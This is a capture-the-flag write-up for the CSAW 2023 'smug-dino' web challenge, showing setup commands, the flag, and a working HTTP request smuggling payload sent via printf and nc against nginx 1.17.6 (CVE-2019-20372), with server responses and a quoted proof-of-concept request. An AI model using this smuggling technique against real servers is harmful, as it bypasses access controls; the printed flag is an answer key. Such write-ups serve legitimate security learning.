


# smug-dino

- source code: [CSAW-CTF-2023-Quals/web/smug-dino at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/web/smug-dino)

## Setup

```bash
echo 127.0.0.1 web.csaw.io | tee /etc/hosts

docker build -t csaw23/smug-dino .
docker run --rm -p 3009:3009 -it csaw23/smug-dino
```

## Flag

csawctf{d0nt_smuggl3_Fla6s_!}

## Solution

As I can see from what the challge name is `smug-dino`, this challenge is intended for HTTP request smuggling.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/smug-dino# printf "GET /flag HTTP/1.1\r\nHost: web.csaw.io:3009\r\n\r\nGET /flag.txt HTTP/1.1\r\nHost: localhost\r\n\r\n\r\n" | nc web.csaw.io 3009
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 22 Sep 2023 09:48:14 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://localhost:3009/flag.txt

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Fri, 22 Sep 2023 09:48:14 GMT
Content-Type: text/plain
Content-Length: 29
Connection: keep-alive

csawctf{d0nt_smuggl3_Fla6s_!}
```

## Research

In http://web.csaw.io:3009/, there are links for `/hint` and `/flag`.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/smug-dino# curl -D- http://web.csaw.io:3009/flag
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 22 Sep 2023 09:22:20 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://localhost:3009/flag.txt

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
```

Accessing `http://web.csaw.io:3009/flag`, then it redirects to `http://localhost:3009/flag.txt`.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/smug-dino# curl http://localhost:3009/flag.txt
csawctf{d0nt_smuggl3_Fla6s_!}
```

Now I can access `http://localhost:3009/flag.txt` because I built in my local machine.
But it is built on a different host in CTF Competition, it is expected that it would normally not be accessible to localhost.

 

Accessing `http://web.csaw.io:3009/hint`, then it shows the input form for `Server name:` and `Server Version:`. Submitted `nginx` and `1.17.6` in each form, I got the following hint message:

```text
HINT: #1

We believe the item you seek is only accessible to localhost clients on the server; 
All other requests to /flag will be processed as a 401. 


It seems the server is issuing 302 redirections to handle 401 erors...
Is it possible to use the redirection somehow to get the localhost flag?


HINT: #2

CVE 2019-....
```

Google search with `nginx 1.17.6 vulnerability`, I found [CVE-2019-20372](https://nvd.nist.gov/vuln/detail/CVE-2019-20372).
There is the PoC.

[NGINX error_page request smuggling](https://web.archive.org/web/20191224160003/https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf)

> Example Vulnerable Request
> 
> The request that is made to the server looks as follows:
> ```
> GET /a HTTP/1.1
> Host: localhost
> Content-Length: 56
> 
> GET /_hidden/index.html HTTP/1.1
> Host: notlocalhost
> ```


Similarly, I can get `/flag.txt` by requesting `/flag`.


 
